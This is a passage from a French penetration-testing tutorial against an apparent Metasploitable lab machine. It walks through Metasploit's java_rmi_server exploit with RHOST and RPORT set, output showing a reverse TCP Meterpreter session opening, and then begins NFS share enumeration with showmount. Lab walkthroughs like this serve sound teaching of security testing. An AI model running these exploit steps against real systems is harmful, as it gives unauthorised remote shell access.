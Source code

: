 ```
  SSL        false            no        Negotiate SSL for incoming connections
  SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
  URIPATH                     no        The URI to use for this exploit (default is random)

[...]
```

#### Configurer les options :

```bash
msf6 exploit(multi/misc/java_rmi_server) > set RHOST 192.168.56.115
RHOST => 192.168.56.115

msf6 exploit(multi/misc/java_rmi_server) > set RPORT 1099
RPORT => 1099
```

#### Exécuter l'exploit

```bash
msf6 exploit(multi/misc/java_rmi_server) > run

[*] Started reverse TCP handler on 192.168.56.114:4444 
[*] 192.168.56.115:1099 - Using URL: http://0.0.0.0:8080/J9MvKpXba
[*] 192.168.56.115:1099 - Local IP: http://10.0.2.15:8080/J9MvKpXba
[*] 192.168.56.115:1099 - Server started.
[*] 192.168.56.115:1099 - Sending RMI Header...
[*] 192.168.56.115:1099 - Sending RMI Call...
[*] 192.168.56.115:1099 - Replied to request for payload JAR
[*] Sending stage (58125 bytes) to 192.168.56.115
[*] Meterpreter session 3 opened (192.168.56.114:4444 -> 192.168.56.115:51105) at 2021-01-26 10:30:19 +0000
[*] 192.168.56.115:1099 - Server stopped.

meterpreter > 
meterpreter > sysinfo
Computer    : metasploitable
OS          : Linux 2.6.24-16-server (i386)
Meterpreter : java/linux
meterpreter > 
```

## NFS

Pour acccéder à un partage de fichier NFS, on a besoin du paquet nfs-common
```bash
sudo apt install nfs-common
```

On peut utiliser la commande `showmount` pour voir les partages disponibles.

    $ showmount -e 192.168.56.115
